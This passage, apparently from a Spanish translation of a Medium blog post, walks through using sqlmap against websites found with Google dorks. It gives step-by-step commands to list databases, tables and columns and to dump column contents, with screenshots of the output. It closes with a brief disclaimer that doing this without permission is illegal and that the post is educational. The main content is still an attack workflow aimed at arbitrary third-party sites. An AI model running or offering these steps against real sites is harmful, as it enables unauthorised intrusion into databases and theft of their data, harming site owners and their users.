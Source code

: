 ![img](https://miro.medium.com/v2/resize:fit:659/1*9KcU3rAoY3ojoJTIxEetuA.png)

**Paso 2:**

Ahora que hemos identificado sitios potencialmente vulnerables que utilizan Google dorks, podemos proceder a probarlos para inyección SQL utilizando una herramienta llamada sqlmap.
sqlmap ya está en Kali Linux; sin embargo, si no lo tienes, puedes instalarlo ejecutando el siguiente comando:

```bash
sudo apt install sqlmap
```

Una vez completada la instalación, ejecute el siguiente comando para encontrar vulnerabilidades de inyección SQL usando sqlmap:

```bash
sqlmap -u "put_the_URL_of_the_site+here" --dbs
```

![img](https://miro.medium.com/v2/resize:fit:660/1*3Fa5mfVSmpZueevcw4s-4g.png)

Sqlmap probará cada parámetro en la URL para la inyección SQL y proporcionará el tipo de base de datos junto con una lista de bases de datos.

![img](https://miro.medium.com/v2/resize:fit:659/1*3ENgNDsgEZjG0j3WnsDVUA.png)

**Paso 3:**

Una vez que se ha identificado y explotado con éxito la vulnerabilidad de inyección SQL, puede aprovechar indicadores adicionales junto con sqlmap para obtener más información sobre la base de datos subyacente, por ejemplo, qué bases de datos están presentes, la cantidad de tablas que tienen, etc.

Por ejemplo:

Para encontrar el número de tablas en una base de datos específica, utilice el comando:

```bash
sqlmap -u "<URL of the site>" -D <database name> --tables
```

![img](https://miro.medium.com/v2/resize:fit:659/1*WotFyYPxplm3Clo5K6Sm7Q.png)

![img](https://miro.medium.com/v2/resize:fit:659/1*RvJ8Hin0edCYwKIFy052vw.png)

Para determinar los nombres de las columnas de una tabla particular, utilice:

```bash
sqlmap -u "put_the_URL_of_the_site+here" -D <database name> -T <table name> --columns
```

Para recuperar los datos de una columna específica, utilice:

```bash
sqlmap -u "put_the_URL_of_the_site+here" -D <database name> -T <table name> -C <column name> --dump
```

Si sigue estos pasos, podrá aprovechar Google dorks y sqlmap para identificar y explotar vulnerabilidades de inyección SQL, lo que le permitirá acceder a las bases de datos subyacentes y extraer información valiosa. Sin embargo, es fundamental tener en cuenta que realizar estas acciones en sitios web sin permiso es ilegal y poco ético. Esta publicación del blog tiene como objetivo brindar conocimientos y generar conciencia sobre las vulnerabilidades de inyección SQL solo con fines educativos.

---

https://medium.com/@saintmark/how-to-find-sql-injection-using-google-dorks-and-sqlmap-3fa9c1676fe3    